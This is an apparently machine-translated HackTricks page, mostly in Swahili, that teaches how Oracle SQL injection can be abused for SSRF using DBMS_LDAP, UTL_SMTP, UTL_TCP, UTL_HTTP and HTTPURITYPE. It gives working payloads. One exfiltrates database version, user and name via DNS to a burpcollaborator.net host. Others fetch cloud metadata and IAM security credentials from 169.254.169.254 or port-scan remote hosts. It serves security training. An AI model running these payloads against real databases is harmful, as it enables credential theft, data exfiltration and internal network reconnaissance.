 # Oracle injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Serve this post a wayback machine copy of the deleted post from [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/)**.

## SSRF

Kutumia Oracle kufanya maombi ya HTTP na DNS ya nje ya bendi kuna nyaraka nzuri lakini kama njia ya kutoa data ya SQL katika sindano. Tunaweza kila wakati kubadilisha mbinu/hifadhidata hizi kufanya SSRF/XSPA nyingine.

Kuweka Oracle kunaweza kuwa na maumivu sana, hasa ikiwa unataka kuanzisha mfano wa haraka kujaribu amri. Rafiki yangu na mwenzangu katika [Appsecco](https://appsecco.com), [Abhisek Datta](https://github.com/abhisek), alinielekeza kwenye [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c) ambayo iliniruhusu kuanzisha mfano kwenye mashine ya t2.large AWS Ubuntu na Docker.

Nilifanya amri ya docker na bendera `--network="host"` ili niweze kuiga Oracle kama usakinishaji wa asili wenye ufikiaji kamili wa mtandao, kwa kipindi cha chapisho hili la blog.
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### Oracle packages that support a URL or a Hostname/Port Number specification <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

Ili kupata pakiti na kazi zozote zinazounga mkono spesifikasiyo ya mwenyeji na bandari, nilifanya utafutaji wa Google kwenye [Oracle Database Online Documentation](https://docs.oracle.com/database/121/index.html). Kwa haswa,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
The search returned the following results (not all can be used to perform outbound network)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

Utafutaji huu wa kimsingi wazi unakosa pakiti kama `DBMS_LDAP` (ambayo inaruhusu kupitisha jina la mwenyeji na nambari ya bandari) kama [ukurasa wa hati](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) unakuelekeza tu kwenye [mahali pengine](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360). Hivyo, kunaweza kuwa na pakiti nyingine za Oracle ambazo zinaweza kutumika vibaya kufanya maombi ya nje ambazo ningeweza kukosa.

Katika hali yoyote, hebu tuangalie baadhi ya pakiti ambazo tumegundua na kuorodhesha hapo juu.

**DBMS\_LDAP.INIT**

Pakiti ya `DBMS_LDAP` inaruhusu ufikiaji wa data kutoka kwa seva za LDAP. Kazi ya `init()` inaanzisha kikao na seva ya LDAP na inachukua jina la mwenyeji na nambari ya bandari kama hoja.

Kazi hii imeandikwa hapo awali kuonyesha uhamasishaji wa data kupitia DNS, kama ilivyo hapa
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
Hata hivyo, kutokana na kwamba kazi inakubali jina la mwenyeji na nambari ya bandari kama hoja, unaweza kutumia hii kufanya kazi kama skana ya bandari pia.

Hapa kuna mifano michache
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
A `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` inaonyesha kwamba bandari imefungwa wakati thamani ya kikao inaonyesha kwamba bandari iko wazi.

**UTL\_SMTP**

Pakiti ya `UTL_SMTP` imeundwa kwa ajili ya kutuma barua pepe kupitia SMTP. Mfano uliopewa kwenye [tovuti ya nyaraka za Oracle unaonyesha jinsi unavyoweza kutumia pakiti hii kutuma barua pepe](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478). Kwa sisi, hata hivyo, jambo la kuvutia ni uwezo wa kutoa maelezo ya mwenyeji na bandari.

Mfano wa kimsingi umeonyeshwa hapa chini na kazi ya `UTL_SMTP.OPEN_CONNECTION`, ikiwa na muda wa kukatika wa sekunde 2.
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
A `ORA-29276: transfer timeout` inaonyesha kwamba bandari iko wazi lakini hakuna muunganisho wa SMTP ulioanzishwa wakati `ORA-29278: SMTP transient error: 421 Service not available` inaonyesha kwamba bandari imefungwa.

**UTL\_TCP**

Pakiti ya `UTL_TCP` na taratibu na kazi zake zinaruhusu [mawasiliano ya msingi wa TCP/IP na huduma](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). Ikiwa imeandikwa kwa huduma maalum, pakiti hii inaweza kwa urahisi kuwa njia ya kuingia kwenye mtandao au kutekeleza Maombi ya Kando ya Server kamili kwani vipengele vyote vya muunganisho wa TCP/IP vinaweza kudhibitiwa.

Mfano [katika tovuti ya hati za Oracle unaonyesha jinsi unavyoweza kutumia pakiti hii kufanya muunganisho wa TCP wa moja kwa moja ili kupata ukurasa wa wavuti](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). Tunaweza kuifanya iwe rahisi zaidi na kuitumia kufanya maombi kwa mfano kwa mfano wa metadata au kwa huduma yoyote ya TCP/IP.
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
Kwa kushangaza, kutokana na uwezo wa kuunda maombi safi ya TCP, kifurushi hiki kinaweza pia kutumika kuhoji huduma ya meta-data ya Instance ya watoa huduma wote wa wingu kwani aina ya mbinu na vichwa vya ziada vinaweza kupitishwa ndani ya ombi la TCP.

**UTL\_HTTP na Maombi ya Mtandao**

Labda mbinu inayojulikana zaidi na iliyoandikwa sana katika kila mafunzo ya Out of Band Oracle SQL Injection ni [`UTL_HTTP` package](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070). Kifurushi hiki kimefafanuliwa na nyaraka kama - `The UTL_HTTP package makes Hypertext Transfer Protocol (HTTP) callouts from SQL and PL/SQL. You can use it to access data on the Internet over HTTP.`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
Unaweza pia kutumia hii kufanya skanning ya port za msingi pia na maswali kama
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
A `ORA-12541: TNS:no listener` au `TNS:operation timed out` ni ishara kwamba bandari ya TCP imefungwa, wakati `ORA-29263: HTTP protocol error` au data ni ishara kwamba bandari iko wazi.

Paket nyingine niliyotumia zamani kwa mafanikio tofauti ni [`GETCLOB()` method ya `HTTPURITYPE` Oracle abstract type](https://docs.oracle.com/database/121/ARPLS/t\_dburi.htm#ARPLS71705) ambayo inakuwezesha kuingiliana na URL na inatoa msaada kwa protokali ya HTTP. Njia ya `GETCLOB()` inatumika kupata jibu la GET kutoka kwa URL kama [aina ya data ya CLOB.](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html)[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
